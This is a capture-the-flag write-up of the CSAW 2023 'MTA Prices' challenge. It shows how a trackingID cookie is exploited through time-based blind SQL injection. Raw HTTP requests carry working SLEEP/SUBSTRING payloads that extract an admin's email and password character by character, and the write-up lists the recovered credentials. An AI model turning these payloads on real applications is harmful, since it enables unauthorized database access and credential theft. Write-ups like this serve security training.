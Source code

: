 # CSAW 2023

# MTA Prices

> Time-based SQli

## How to identify

You can leverage the trackID in the cookie to manipulate the content of the **session,** which the server sends to us in the response header:

Also, if we modify the trackID to an unintended one, the value of the email field in the **session** will be "**Error**".

Importantly, this is a point where we can manipulate user input to get anomalies.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/Untitled.png)

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/Untitled 1.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/Untitled 2.png)

## Exploitation

Replace the [ARG1](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/1-20.list) and [ARG2](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/allprintable.list) with your dictionaries…

> ARG1: numbers from 1 to 20
> ARG2: all the printable characters: ASCII 32 - 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/Untitled 3.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/Untitled 4.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)
